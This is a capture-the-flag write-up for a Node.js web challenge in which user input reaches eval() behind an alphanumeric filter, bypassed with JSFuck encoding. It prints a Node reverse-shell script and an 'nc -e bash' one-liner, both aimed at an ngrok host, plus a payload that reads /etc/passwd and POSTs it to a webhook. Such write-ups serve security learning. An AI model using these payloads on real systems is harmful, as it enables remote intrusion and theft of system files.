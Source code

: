 ## Migraine

<br>

![image](https://user-images.githubusercontent.com/64314534/235347349-229b36ce-894c-469e-8205-9e57bc3dda5a.png)

<br>
  
Another code review web challenge (Node js)


## Let's Start by analyzing the code :

There are many files but we will only review `app.js` file :


<br>

![image](https://user-images.githubusercontent.com/64314534/235347578-55e934d8-5c26-49c8-905a-6e8d6c40bad3.png)

<br>

The `app.js` file had this content : 

<br>

![image](https://user-images.githubusercontent.com/64314534/235361632-2f328a01-0f68-4c85-a72d-8245157c749d.png)

<br>

## Code Analysis

<br>

The Get of '/' route will just view the index.html file 

<br>
But the POST of '/' route will do the following:

- Take the value of `src` HTTP parameter from the user and store it in `src` variable 
- Check if the value of the src is matching this Regex : `/[A-Za-z0-9]/` that means matching any alphanumberic character and if it matches the server will send `Bad character detected.` as a response.
- If not matched the server will pass `src` value into eval function //very interesting part
- If there is an error while evaling the value of `src` the server will respond by 'Error on eval.' and if not it will send 'Success!'


<br>

## How we can exploit this code ??

<br>

Since we can pass an input for eval() function, so we can run our code on the server.
<br>
But the problem here is the regex filter, how we can write our code without any alpha chars or numbers ??
<br>
Basiclly we can use `js fuck` to write our js code within these chars only : `'[',']','+'`
<br>
i tried to get reverse shell and rce with these payloads :
```node
(function(){
    var net = require("net"),
        cp = require("child_process"),
        sh = cp.spawn("bash", []);
    var client = new net.Socket();
    client.connect(14097, "6.tcp.eu.ngrok.io", function(){
        client.pipe(sh.stdin);
        sh.stdout.pipe(client);
        sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
})();

```
<br>

```node
require('child_process').exec('nc -e bash 6.tcp.eu.ngrok.io 14097')


```

<br>

but they didn't work so, i opened the docker image that they provided and i noticed that the server didn't had nc or even curl/wget binaries :) so, i decided to open the flag file and send it's content to my web-hook with this payload:
```node
require('http').request({hostname:'web_hook_url',path:'/upload',port:80,method:'POST',headers:{'Content-Type':'text/plain','Content-Length':require('fs').statSync('/etc/passwd').size}},(r)=>r.on('data',(d)=>process.stdout.write(d))).on('error',(e)=>console.error(e)).end(require('fs').readFileSync('/etc/passwd','utf8'));
```
and i use this website http://www.jsfuck.com/  to make it in js fuck : D

and i could get the flag :

<br>
 
![image](https://user-images.githubusercontent.com/64314534/235363159-f9b0ce6a-22b0-4fcb-9f8c-c791d53377b0.png)


<br>
 

